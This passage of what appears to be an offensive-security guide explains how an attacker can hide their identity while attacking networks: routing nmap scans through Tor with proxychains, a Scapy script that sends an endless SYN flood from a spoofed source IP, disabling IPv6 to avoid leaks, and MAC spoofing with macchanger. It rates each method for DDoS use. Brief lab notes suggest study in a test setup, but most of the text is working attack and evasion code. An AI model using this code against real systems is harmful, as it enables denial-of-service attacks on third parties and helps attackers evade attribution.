   3. Route traffic through Tor using `proxychains`:
     ```bash
     sudo apt-get install proxychains
     ```
     Edit `/etc/proxychains.conf` to include:
     ```
     socks5 127.0.0.1 9050
     ```
     Run tools through Tor:
     ```bash
     proxychains nmap -sT <target_IP>
     ```
- **Effectiveness**: Very high for anonymity, but slow for DDoS due to Tor’s latency. Not ideal for high-volume attacks.
- **Lab Note**: Set up a Tor relay in your lab to simulate anonymity without real-world Tor usage.

#### Method 3: IP Spoofing
- **How It Works**: Forge the source IP in packets to make it appear as if they come from another address. Useful for attacks like DNS amplification.
- **Tools**: Scapy or `hping3`.
- **Example with Scapy**:
  ```python
  from scapy.all import *
  target_ip = "<target_IP>"
  spoofed_ip = "192.168.1.100"  # Fake IP
  packet = IP(src=spoofed_ip, dst=target_ip)/TCP(dport=80, flags="S")
  send(packet, loop=1, verbose=0)
  ```
- **Effectiveness**: High for one-way attacks (e.g., UDP floods, amplification), but ineffective for TCP attacks requiring a handshake (e.g., HTTP floods) since responses go to the spoofed IP.
- **Lab Note**: Test in a lab with a target VM to see how spoofed packets appear in `tcpdump`.

#### IPv6 Consideration
- If the target uses IPv6, ensure your tools support it (e.g., Scapy). Disable IPv6 on your Kali VM to avoid leaks:
  ```bash
  sudo sysctl -w net.ipv6.conf.all.disable_ipv6=1
  ```

### b. Hiding Your MAC Address
The MAC address identifies your network interface at the data link layer. It’s only visible on the same local network, so it’s less critical for remote attacks but still relevant in lab setups.

#### Method: MAC Spoofing
- **How It Works**: Change your network interface’s MAC address to a random or fake one.
- **Tool**: `macchanger` in Kali.
- **Setup**:
  1. Check current MAC:
     ```bash
     ifconfig eth0
     ```
  2. Install and change MAC:
     ```bash
     sudo apt-get install macchanger
     sudo ifconfig eth0 down
     sudo macchanger -r eth0  # Random MAC
     sudo ifconfig eth0 up
     ```
  3. Verify new MAC:
     ```bash
     macchanger -s eth0
     ```
- **Effectiveness**: High for local network anonymity. Not relevant for internet-based attacks since MAC addresses don’t leave the local network.